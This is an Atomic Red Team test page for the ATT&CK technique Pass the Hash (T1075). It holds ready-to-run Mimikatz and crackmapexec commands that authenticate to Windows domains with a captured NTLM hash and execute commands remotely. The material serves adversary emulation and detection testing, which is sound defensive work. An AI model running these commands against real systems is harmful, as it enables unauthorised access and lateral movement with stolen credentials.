 # T1075 - Pass the Hash
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1075)
<blockquote>Pass the hash (PtH) is a method of authenticating as a user without having access to the user's cleartext password. This method bypasses standard authentication steps that require a cleartext password, moving directly into the portion of the authentication that uses the password hash. In this technique, valid password hashes for the account being used are captured using a Credential Access technique. Captured hashes are used with PtH to authenticate as that user. Once authenticated, PtH may be used to perform actions on local or remote systems. 

Windows 7 and higher with KB2871997 require valid domain user credentials or RID 500 administrator hashes. (Citation: NSA Spotting)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Mimikatz Pass the Hash](#atomic-test-1---mimikatz-pass-the-hash)

- [Atomic Test #2 - crackmapexec Pass the Hash](#atomic-test-2---crackmapexec-pass-the-hash)


<br/>

## Atomic Test #1 - Mimikatz Pass the Hash
Note: must dump hashes first
[Reference](https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa#pth)

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user_name | username | string | Administrator|
| domain | domain | string | atomic.local|
| ntlm | ntlm hash | string | cc36cf7a8514893efccd3324464tkg1a|


#### Attack Commands: Run it with `command_prompt`! 
```
mimikatz # sekurlsa::pth /user:#{user_name} /domain:#{domain} /ntlm:#{ntlm}
```





<br/>
<br/>

## Atomic Test #2 - crackmapexec Pass the Hash
command execute with crackmapexec

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user_name | username | string | Administrator|
| domain | domain | string | atomic.local|
| ntlm | command | string | cc36cf7a8514893efccd3324464tkg1a|
| command | command to execute | string | whoami|
| crackmapexec_exe | crackmapexec windows executable | Path | C:\CrackMapExecWin\crackmapexec.exe|


#### Attack Commands: Run it with `command_prompt`! 
```
crackmapexec #{domain} -u #{user_name} -H #{ntlm} -x #{command}
```


#### Dependencies
##### Description:
CrackMapExec executor must exist on disk at specified location (#{crackmapexec_exe})
##### Check Prereq Commands:
```
if(Test-Path #{crackmapexec_exe}) { 0 } else { -1 } 
```
##### Get Prereq Commands:
```
Write-Host Automated installer not implemented yet, please install crackmapexec manually at this location: #{crackmapexec_exe}
```




<br/>
